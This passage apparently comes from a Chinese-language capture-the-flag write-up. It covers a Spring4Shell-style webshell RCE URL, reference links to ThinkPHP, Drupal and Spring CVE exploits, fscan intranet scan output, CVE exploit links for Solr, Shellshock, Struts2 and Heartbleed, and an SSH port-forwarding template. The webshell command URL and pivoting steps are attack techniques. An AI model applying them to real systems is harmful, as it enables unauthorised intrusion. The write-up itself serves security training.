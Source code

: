 ```
```
然后访问链接实现rce：  
```
http://121.5.35.176:30004/tomcatwar.jsp?pwd=j&cmd=whoami
```
参考链接：  
[攻防世界 ThinkPHP V5（漏洞解析及利用）](https://blog.csdn.net/qq_45676913/article/details/105467321)  
[Drupal 漏洞 CVE-2018-7600 远程代码执行-复现](https://blog.csdn.net/weixin_42742658/article/details/112479848)  
[CVE-2022-22965：Spring远程代码执行漏洞](https://blog.csdn.net/laobanjiull/article/details/124054250)
# [Baby]RseaE(季末大酬宾)
内网渗透入门题，每一道题的漏洞都已经写在题干上了  
题目给了一台可以连通外网和内网的主机，用scp上传fscan扫描得到四个ip
```
10.0.20.111:22 open
10.0.20.1:22 open
10.0.20.121:80 open
10.0.20.199:80 open
10.0.20.167:80 open
10.0.20.156:80 open
10.0.20.199:443 open
[*] WebTitle:http://10.0.20.156        code:200 len:120    title:Hello
[*] WebTitle:http://10.0.20.121        code:302 len:0      title:None 跳转url: http://10.0.20.121/solr/
[*] WebTitle:http://10.0.20.199        code:200 len:96     title:Hello
[*] WebTitle:http://10.0.20.121/solr/  code:200 len:13138  title:Solr Admin
[*] WebTitle:http://10.0.20.167        code:200 len:228    title:Struct-2.5.16-Demo
[*] WebTitle:https://10.0.20.199       code:200 len:96     title:Hello
[+] http://10.0.20.121 poc-yaml-solr-velocity-template-rce 
```
接下来就是快乐的脚本小子时间  
[CVE-2019-17558](https://www.cnblogs.com/Found404/p/14302902.html)  
[CVE-2014-6271](https://www.cnblogs.com/Cl0ud/p/14248937.html)  
[CVE-2019-0230](https://blog.csdn.net/weixin_42019588/article/details/113243932)  
[CVE-2014-0160](https://www.freebuf.com/column/194171.html)  
别忘了使用ssh内网穿透在本地机攻击  
```
ssh -L [local port]:[intranet ip]:[intranet port] [user]@[remote ip] -p [remote port]
```